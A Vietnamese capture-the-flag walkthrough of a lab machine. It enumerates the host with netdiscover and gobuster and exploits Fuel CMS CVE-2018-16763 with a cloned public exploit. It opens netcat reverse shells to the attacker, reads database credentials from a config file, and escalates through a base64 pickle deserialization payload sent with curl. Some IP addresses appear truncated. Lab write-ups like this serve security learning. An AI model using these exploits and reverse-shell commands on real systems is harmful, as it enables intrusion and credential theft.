 ## Step 1
Dùng **netdiscover -r 10.0.2.0/24** để dò ip của victim

![image](https://user-images.githubusercontent.com/97771705/222623213-96b7c935-f64e-456b-886f-9848fee3f4eb.png)

IP là *10.0.2.5*

Quét port ra 4 port, trong đó có 1 port mysql 

![image](https://user-images.githubusercontent.com/97771705/223318597-503e6337-d3a5-4494-90b9-c779ee69317a.png)

![image](https://user-images.githubusercontent.com/97771705/223318808-c6786e72-4619-48f4-a1ba-4e6f5cc147db.png)

## Step 
Tìm path ẩn bằng gobuster
>gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.5 -x html,php,txt

Tìm thấy 1 trang structure

![image](https://user-images.githubusercontent.com/97771705/223321109-040f3e01-6879-4f94-afb1-8f21e7253c1d.png)

Truy cập vào trang

![image](https://user-images.githubusercontent.com/97771705/223320795-03127848-e07d-4bea-bd9f-4fb081411f6e.png)

Ta tiếp tục tìm path ẩn của structure

> gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.5/structure -x html,php,txt

Phát hiện khá nhiều trang hay ho

![image](https://user-images.githubusercontent.com/97771705/223322168-14894230-8eed-4539-8fc5-1567cfc46739.png)

![image](https://user-images.githubusercontent.com/97771705/223321296-4e30fd1a-7e26-44c9-9146-4637662c0ae1.png)

![image](https://user-images.githubusercontent.com/97771705/223321412-efb75479-44be-49e9-85de-c8e00fb1eb09.png)

Trang /fuel mặc định là /fuel/start ->có vẻ như lại cần gobuster :)

> gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.5/structure -x html,php,txt

Trang index.php chuyển hướng sang start

![image](https://user-images.githubusercontent.com/97771705/223322704-44a5ab48-433a-499b-92f2-1d471019b544.png)

Thử thay url bằng /index.php/fuel 

![image](https://user-images.githubusercontent.com/97771705/223323114-ac21dfa1-9395-4f2c-99a2-5dbd381c6337.png)

Tìm kiếm trên Google, phát hiện Fuel CMS có lỗ hổng RCE tại những phiên bản cũ. Một trong những code khai thác:

https://github.com/padsalatushal/CVE-2018-16763

Git clone code trên trang github trên về máy kali

![image](https://user-images.githubusercontent.com/97771705/223417730-70b91543-6dd8-416a-b789-594e6db99a61.png)

Nhập command reverse shell: tạo ra một kết nối từ victim machine đến attacker machine, thông qua đó attacker có thể kiểm soát và thực thi các lệnh trên victim machine. Khi thực hiện được kết nối này, attacker có thể truy cập vào các tài nguyên và dữ liệu trên victim machine, và có thể thực hiện các hành động như cài đặt phần mềm độc hại, lấy mật khẩu và tạo backdoor để giữ lâu dài quyền kiểm soát truy cập vào victim machine.

>nc 10.0.255 4444 /bin/bash

Sau đó đọc thông tin trong database.php

> cat /var/www/html/structure/fuel//config/database.php 

![image](https://user-images.githubusercontent.com/97771705/223422171-a6f74ea1-4bf9-464f-b325-dfbc4dd7b45e.png)

Ta đã có username và password, trở về máy phineas -> đăng nhập thành công

![image](https://user-images.githubusercontent.com/97771705/223422669-fa400788-e058-4df1-b0a1-84fb2ea8bd1b.png)

Hoặc dùng cách ssh cho pro :)

![image](https://user-images.githubusercontent.com/97771705/223422976-1e9f8cb9-08a4-4f94-92a9-7d74e86b6349.png)

Tìm kiếm loanh quanh các thư mục -> nhận được flag đầu tiên

![image](https://user-images.githubusercontent.com/97771705/223423539-fb08405f-35fd-4012-a371-6f0a2f6ef8cd.png)

## Step 3

Đến lúc leo thang đặc quyền r :) 

Trong số các folder khởi đầu của máy Phineas, chỉ có duy nhất /web là không có viết hoa. Mở ra có 1 file python

![image](https://user-images.githubusercontent.com/97771705/223424243-49792b4c-cfe5-46b6-acd5-a51bca3f77d9.png)

Có thể thấy nó bị dính lỗi Insecure Deserialization

Command exploit
>wget https://gist.githubusercontent.com/kriss-u/085569495cb930e398759c0cbf45e3b7/raw/15fe119ed307ac69673bcaadd9fab84c32a85a00/pickle-payload-py3.py

>python3 pickle-payload-py3.py "nc 10.0.2. 9999 -e /bin/bash"

>curl -d "awesome=gASVOQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjB5uYyAxMC4wLjIuMTUgOTk5OSAtZSAvYmluL2Jhc2iUhZRSlC4=" -X POST http://127.0.0.1:5000/heaven





